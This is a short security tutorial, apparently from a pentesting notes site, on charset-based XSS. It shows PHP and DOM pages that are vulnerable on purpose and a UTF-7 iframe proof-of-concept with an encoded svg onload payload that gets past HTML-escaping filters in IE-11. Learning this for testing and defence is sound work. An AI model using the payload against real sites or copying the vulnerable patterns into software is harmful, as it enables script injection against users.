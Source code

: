 ```yaml
---
title: Charset XSS
---
```


# Charset XSS

Charset XSS is useful in cases where application filters HTML special characters like `<` & `>`, You might have seen these characters converting back into `&gt;` & `&lt;` respectively.

For example consider the following codes

```text
<?php
if(isset($_GET['xss'])) {
    echo htmlspecialchars($_GET['xss']);
}
?>
```

and similarly for DOM XSS code

```text
<html>
    <head>
        <title>test page</title>
    </head>
    <body>
        <script>
            var bad_string = window.location.hash.substring(1);
            var regex = /<\>/gi;
            var good_string = bad_string.replace(regex,'')
            document.write(good_string);
        </script>
    </body>
</html>
```

using charset XSS it is possible to bypass html special characters filtration

## Requirements

* Target site not implemented charset
* Target site implemented the wrong charset

## Example works in IE-11

Consider the same DOM XSS code

{{< details xss.html open >}}

```text
<html>
    <head>
        <title>test page</title>
    </head>
    <body>
        <script>
            var bad_string = window.location.hash.substring(1);
            var regex = /<\>/gi;
            var good_string = bad_string.replace(regex,'')
            document.write(good_string);
        </script>
    </body>
</html>
```
{{< /details >}}

Since this page does not have any charset defines that means it fulfil the requirements for charset XSS. In order to do it, we will create a document with UTF-7 encoding and load the vulnerable URL in the iframe.

{{< details iframe.html open >}}
```text
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-7">
</head>
<body>
    <iframe src="http://lab.com:8888/common/c.html#<p>+ADw-svg/onload+AD0-alert(1444444)+AD4-</p>" frameborder="1"
        height="300" width="500"></iframe>
</body>
</html>
```
{{< /details >}}

As soon as we access iframe.html we triage javaScript code execution since xss.html doesn't have any charset defined and hence browser inherit top frame's charset which is UTF-7.

